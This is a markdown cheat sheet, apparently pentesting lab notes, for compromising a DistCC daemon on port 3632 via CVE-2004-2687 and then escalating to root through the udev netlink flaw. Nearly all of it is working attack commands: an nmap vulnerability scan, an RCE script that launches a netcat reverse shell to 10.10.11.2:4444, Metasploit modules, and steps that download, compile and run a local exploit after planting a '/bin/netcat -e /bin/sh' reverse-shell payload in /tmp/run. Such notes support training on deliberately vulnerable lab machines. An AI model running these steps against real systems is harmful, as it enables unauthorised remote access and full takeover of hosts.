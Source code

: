 # DistCC Daemon: Port 3632

1. Detect vulnerability

        nmap -Pn --script vuln -p3632 10.129.28.89

2. Get shell access using either of the following methods
   * [distccd_rce_CVE-2004-2687.py](https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py)

            python distccd_rce_CVE-2004-2687.py -t 10.10.10.4 -p 3632 -c "nc -e /bin/bash 10.10.11.2 4444"

   * [Metasploit](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec)

            use exploit/unix/misc/distcc_exec

3. Escalate privilege by either of the following methods
   * [Netlink 1.4.1](https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html)
  
        Attack `NETLINK 1.4.1`, as it does not verify whether a NETLINK message is originating from the kernel space or not. Local users can gain privilege by sending a NETLINK message from the user space (`/tmp/run`).

            $ wget --no-check-certificate http://www.computersecuritystudent.com/DOWNLOADS/8572 -O exploit-8572.c
            $ gcc exploit-8572.c -o exploit-8572
            $ echo '#!/bin/sh' > /tmp/run
            $ echo '/bin/netcat -e /bin/sh 10.10.10.2 4444' >> /tmp/run
            $ ps -eaf | grep udev | grep -v grep

        [1] Record your PID (2709), 
        [2] subtract 1 (2708), and 
        [3] supply new PID to the next step.

            $ ./exploit-8572 2708

   * [Metasploit](https://www.rapid7.com/db/modules/exploit/linux/local/udev_netlink)

            use exploit/linux/local/udev_netlink

## References

* https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec
* https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html
* https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
* https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html
* https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py
* https://www.exploit-db.com/exploits/21848
* https://www.rapid7.com/db/modules/exploit/linux/local/udev_netlink